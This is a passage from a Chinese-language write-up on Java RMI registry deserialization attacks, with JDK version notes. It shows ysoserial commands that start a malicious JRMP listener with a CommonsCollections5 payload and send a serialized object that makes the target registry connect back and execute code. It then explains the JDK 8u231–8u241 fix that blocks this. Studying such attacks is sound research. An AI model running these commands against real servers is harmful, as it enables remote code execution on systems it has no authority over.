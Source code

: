 ```java
        ref.invoke(var2);//这个语句不能少，否则不会触发。
    } catch (RuntimeException var16) {
        throw var16;
    } catch (RemoteException var17) {
        throw var17;
    } catch (NotBoundException var18) {
        throw var18;
    } catch (Exception var19) {
        throw new UnexpectedException("undeclared checked exception", var19);
    }
}
```

```shell
# 打开JRMP恶意服务端
# 注意这里利用链的是否适用于当前java版本
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1999 CommonsCollections5 "calc.exe"
# 向Register发送恶意序列化对象，使其发起对恶意JRMP的连接
# 前一个ip和端口是要打的register，后面的host:port是开启JRMP恶意服务端的host和端口,lookup是选择通过lookup发起攻击
java -cp ysoserial-all.jar ysoserial.payloads.RMIRegistryExploit lookup JRMPClient ip port ip:port
```

#### jdk8u231<=version<jdk8u241

##### 修复一RegistryImpl_Skel#dispatch添加异常检查

在RegistryImpl_Skel#dispatch中，bind、list、unbind、lookup等方法对应的反序列化操作后都增加了一个异常检查操作，如果抛出异常，就会执行代码`var7.discardPendingRefs`，这行代码的作用简单来说就是消除之前反序列化过程生成的一个对象，这会导致后续`var7.releaseInputStream()`无法发起JRMP连接。

![image-20240830095410848](./images/image-20240830095410848.png)
